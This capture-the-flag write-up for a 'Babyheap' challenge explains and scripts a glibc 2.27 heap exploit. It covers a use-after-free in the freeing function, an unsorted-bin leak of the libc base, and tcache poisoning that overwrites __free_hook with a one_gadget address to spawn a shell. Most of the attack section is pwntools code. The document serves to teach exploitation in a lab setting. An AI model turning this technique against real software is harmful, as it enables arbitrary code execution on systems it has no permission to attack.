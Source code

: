 # Babyheap
We are given a classic heap exploitation binary, where we have the ability to malloc, free and show chunks in the memory.
The binary is has a ```while true``` that runs these options:
```
1. Allocate some memory
2. Show data at memory location
3. Free some memory
4. Exit
```

1. Allocating data lets us choose the size, contents and index of the chunk. There can be at most 8 chunks.
chunk addresses are stored in an array named ```heap_buf``` in the ```bss``` segment.
2. Printing data, lets us choose an index from the ```heap_buf``` array and prints its' contents.
3. Free, lets us free a chunk from the ```heap_buf``` array.
4. Exits.

## The vulnerabilities:
1. Let's take a look at the ```freeing``` function:
```c
void freeing(void)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What index would you like to free?");
  iVar1 = __isoc99_scanf(&DAT_00102031,&local_14);
  if (iVar1 == 0) {
    puts("Please enter an integer.");
    __isoc99_scanf(&DAT_0010204d,&local_15);
  }
  else {
    if (local_14 < 8) {
      free(*(void **)(heap_buf + (long)local_14 * 8));
    }
    else {
      puts("Can\'t reach that index!");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
Well this function indeed frees a chunk but doesn't set the ```heap_buf``` at that index to ```0```, giving us use after free.

2. The libc version of the challenge is 2.27 so we have some freedom doing common heap exploits since this isn't libc >= 2.29.
In particular, we will use unsorted bin libc leak and tcahce dup and tcache poisoning for our advantage.
## Our convenience functions:
```python
def alloc(index, size, content):
    p.sendlineafter("Exit", "1")
    p.sendlineafter("?", str(size))
    p.sendlineafter("?", str(index))
    p.sendlineafter("?",  content)

def free(index):
    p.sendlineafter("Exit", "3")
    p.sendlineafter("?", str(index))

def show(index):
    p.sendlineafter("Exit", "2")
    p.sendlineafter("?", str(index))
```

## Leaking libc
First of all, I want to leak libc base address and it is possible to do that by using unsorted bin vulnerability.
Unsorted bin, is a circular list, with both ends pointing into ```main_arena``` which are fixed variables in libc.
So, if we can leak one of the ends of this circular list we can determine libc base.

```python
alloc(0, 0x2000, 8*b"A")
alloc(1, 0x2000, 8*b"B")
free(0)
show(0)
```
We alloc two large chunks, when we free the first one it'll end up of the unsorted bin.
If I had allocated only one large chunk, upon free, it'll consolidate with the ```top``` chunk, therefore we must allocate two chunks.
Now because we have a use after free, when we so the contents of the first chunk we actually leak the ```fd``` pointer of the chunk in the unsorted bin.
This gives us a known address with a fixed offset of ```0x3ebca0``` to libc base.

## Quick overview of tcache dup & poisoning
Freed small chunks are stored in the ```tcache```, and upon ```maloc```ing chunks of some size, ```malloc``` will first lookup in the ```tcache```
Chunks in the tcache are structs that look like: 
```c
strcut chunk {
	INTERNAL_SIZE_T mchunk_prev_size;
	INTERNAL_SIZE_T mchunk_size;
	struct malloc_chunk* fd; //Pointer to the next chunk in the tcache.
	struct malloc_chunk* bk; //Pointer to the previous chunk in the tcahce.
}
```
Where the pointer to the chunk actually point to the ```fd``` member.
Now, imagine:
```c
malloc(0x10) // chunk #1
free(chunk1) 
free(chunk1)
```
The tcache will have the two same chunks, were the first chunk ```fd``` member points to itself.
Now,
```c
malloc(0x10) // we get the same chunk1, the first in the tcache
write(chunk1, address) // write some address to the newly malloc'd chunk.
malloc(0x10) // we get the same chunk2, the second in the tcache.
malloc(0x10) // we get a chunk that points to address!
```
The point is, that writing to chunk, actually override the ```fd``` member, and upon next allocation, ```malloc``` will be tricked and allocate the chunk pointed by the ```fd``` pointer of ```chunk1```

So,
```python
alloc(2, 0x10, 8*b"A")
alloc(3, 0x10, 8*b"B")
free(2)
free(2)

alloc(5, 0x10, p64(libc.sym["__free_hook"]))
alloc(6, 0x10, 8*b"C")
alloc(7, 0x10, p64(libc.address + 0x4f3c2))
```
allocating chunk 5 and writing ```__free_hook``` to it, will poison the tcache.
allocating chunk 6 will give us the 2nd ```free(2)``` entry from the tcache
Chunk 7 will point to ```__free_hook```, and we write the address of a ```one_gadget``` there.

Now simply ```free(0)``` and we get shell.

